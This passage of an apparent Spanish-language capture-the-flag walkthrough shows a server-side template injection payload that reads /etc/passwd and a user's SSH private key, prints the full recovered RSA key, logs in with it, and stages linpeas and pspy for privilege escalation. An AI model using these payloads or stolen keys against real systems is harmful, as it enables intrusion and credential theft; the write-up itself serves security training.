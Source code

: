 La respuesta del servidor es nuevamente el archivo _results.txt_, en este caso vemos el archivo _/etc/passwd_ y hay dos usuarios que tienen shell, el usuario _svc\_acc_ y _root_. Sabiendo lo anterior, ahora podemos leer la _id\_rsa_ del usuario svc\_acc para intentar conectarnos por SSH, por lo que nuevamente usaré el payload anterior, cambiando la ruta y hacer un pantallazo de:
{% assign stti = '{{ get_flashed_messages.__globals__.__builtins__.open("/home/scv_acc/.ssh/id_rsa").read() }}' %}
```shell
{{ stti }}
```

...para subirlo y obtener la clave privada. Ahora movemos el archivo con la clave privada a nuestro directorio de trabajo y le quitamos las etiquetas `<p></p>` , además le damos permiso _600_ (rw-------):
```shell
❯ mv ~/Downloads/results.txt id_rsa; 
❯ sed -i 's/<p>//' id_rsa
❯ sed -i 's/<\/p>//' id_rsa
❯ chmod 600 id_rsa
❯ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----
❯ ssh -i id_rsa scv_acc@10.10.11.156
```

## Escalando privilegios
### Transición de archivos
Descargamos [linpeas](https://github.com/topics/linpeas) y [pspy](https://github.com/DominicBreuker/pspy)
Movemos los archivos a nuestros directorios de trabajo y creamos un servidor por http:
```shell
❯ mv ~/Downloads/pspy pspy
❯ mv ~/Dowloads/linpeas.sh
❯ python3 -m http.server 80
```
